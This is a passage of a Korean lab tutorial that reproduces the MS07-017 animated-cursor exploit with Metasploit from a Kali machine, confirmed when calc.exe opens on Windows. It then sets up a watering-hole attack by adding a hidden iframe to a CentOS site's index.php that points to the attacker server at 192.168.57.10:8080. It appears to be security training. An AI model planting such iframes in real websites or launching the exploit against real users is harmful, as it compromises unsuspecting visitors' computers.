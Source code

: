 <br>

윈도우에서 칼리 리눅스(공격자)쪽으로 웹페이지에 접속하여 결과를 확인한다.
![2](https://user-images.githubusercontent.com/59737252/164978925-1dc61561-c2d1-4796-843a-5723706d1ade.png)

<br>

애니커서 취약점을 이용한 공격이 성공하면 calc.exe가 실행이 되는것을 볼 수 있다.
![3](https://user-images.githubusercontent.com/59737252/164978932-dc9d7a1f-1115-4625-9358-babb17acda04.png)

<br>

---

<br>

## Step2. 사용자의 웹 브라우저에 대한 악성 페이지 유도 구현

이 공격 기법은 Drive-by Compromise으로 웹 사이트에(Centos) 악성 스크립트/HTML을 삽입하여 공격자 서버의(KALI 리눅스) 악성 페이지로 유도하는 워터링홀 공격이다.

Step1에서 만들어 두었던 만들어 두었던 ms07_017_exec.rc 를 이용한다.

> Kali에서 진행한다.

```shell
kali# msfconsole -r ms07_017_exec.rc
```

<br>

> Centos로 진행한다.

```shell
centos# service httpd restart
centos# cd /var/www/html
centos# mkdir lab
centos# vim index.php
```

<br>
> index.php

```html
<html>
  <head>
    <h1>Web Site Main Page</h1>
  </head>
  <body>
    <iframe width="100" height="100" src="http://192.168.57.10:8080"></iframe>
  </body>
</html>
```

Centos서버로 접속을 하면 공격자의 서버(192.168.57.10)로 유도하도록 iframe을 작성한다.

<br>
